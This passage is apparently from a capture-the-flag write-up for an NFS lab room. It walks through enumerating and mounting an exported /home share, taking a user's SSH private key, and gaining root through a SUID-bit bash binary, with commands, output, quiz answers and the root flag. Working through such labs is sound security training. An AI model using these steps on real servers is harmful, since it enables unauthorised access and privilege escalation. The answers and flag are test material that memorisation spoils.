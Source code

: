     41849/tcp open  unknown
    58355/tcp open  unknown

    Nmap done: 1 IP address (1 host up) scanned in 1037.19 seconds
    ```
    **Answer:** 7

1. Which port contains the service we're looking to enumerate?<br>
    **Answer:** 2049

1. Now, use /usr/sbin/showmount -e [IP] to list the NFS shares, what is the name of the visible share?<br>
    ```
    $ showmount -e 10.10.3.83
    Export list for 10.10.3.83:
    /home *
    ```
    **Answer:** /home

1. Then, use the mount command we broke down earlier to mount the NFS share to your local machine. Change directory to where you mounted the share- what is the name of the folder inside?<br>
    Run command `sudo mount -t nfs 10.10.3.83:home /tmp/mount/ -nolock` then list that directory.<br>
    **Answer:** cappucino

1. Interesting! Let's do a bit of research now, have a look through the folders. Which of these folders could contain keys that would give us remote access to the server?<br>
    ```
    $ ls /tmp/mount/cappucino/ -a
    .  ..  .bash_history  .bash_logout  .bashrc  .cache  .gnupg  .profile  .ssh  .sudo_as_admin_successful
    ```
    Use `ls -a` to list all files and directories.<br>
    **Answer:** .ssh

1. Which of these keys is most useful to us?<br>
    **Answer:** id_rsa

1. Can we log into the machine using ssh -i <key-file> <username>@<ip> ? (Y/N)<br>
    **Answer:** Y

### Task 4 - Exploiting NFS
1. Now, we're going to add the SUID bit permission to the bash executable we just copied to the share using "sudo chmod +[permission] bash". What letter do we use to set the SUID bit set using chmod?<br>
    **Answer:** s

1. Let's do a sanity check, let's check the permissions of the "bash" executable using "ls -la bash". What does the permission set look like? Make sure that it ends with -sr-x.<br>
    ```
    $ ls -al bash 
    -rwsr-sr-x 1 root g18520560 1113504 Feb 22 15:05 bash
    ```
    **Answer:** -rwsr-sr-x

1. Great! If all's gone well you should have a shell as root! What's the root flag?<br>
    ```
    $ ./bash -p
    bash-4.4# id
    uid=1000(cappucino) gid=1000(cappucino) euid=0(root) groups=1000(cappucino),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
    bash-4.4# cat /root/root.txt 
    THM{nfs_got_pwned}
    ```
    **Answer:** THM{nfs_got_pwned}
